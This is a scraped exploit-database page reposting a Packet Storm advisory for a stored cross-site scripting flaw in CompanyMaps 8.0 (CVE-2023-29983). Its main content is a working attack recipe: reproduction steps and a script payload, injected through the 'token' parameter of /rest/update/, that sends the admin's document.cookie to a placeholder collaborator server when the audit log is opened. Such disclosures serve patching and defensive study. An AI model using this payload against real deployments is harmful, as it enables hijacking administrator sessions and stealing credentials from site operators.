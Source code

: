 ```yaml
---
title: CompanyMaps 8.0 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172075&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-02
fetch_date: 2025-10-04T11:38:42.256885
---
```


# CompanyMaps 8.0 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CompanyMaps 8.0 Cross Site Scripting CVE-2023-29983

2023-05-01 | CVSS 6.9

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172075
# Exploit Title: Stored Cross Site Scripting
# Google Dork:
# Date: 27.04.2023
# Exploit Author: Lucas Noki (0xPrototype)
# Vendor Homepage: https://github.com/vogtmh
# Software Link: https://github.com/vogtmh/cmaps
# Version: 8.0
# Tested on: Mac, Windows, Linux
# CVE : CVE-2023-29983

*Steps to reproduce:*
1. Clone the repository and install the application
2. Send a maliciously crafted payload via the "token" parameter to the following endpoint: /rest/update/?token=
3. The payload used is: <script>new+Image().src=`http://YOUR_COLLABORATOR_SERVER/?c=${document.cookie}`</script>
4. Simply visiting the complete URL: http://IP/rest/update/?token=PAYLOAD is enough.
5. Login into the admin panel and go to the auditlog under: /admin/index.php?tab=auditlog
6. Check your collaborator server. You should have a request where the admins cookie is the value of the c parameter

In a real world case you would need to wait for the admin to log into the application and open the auditlog tab.

Special thanks goes out to iCaotix who greatly helped me in getting the environment setup as well as debugging my payload.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
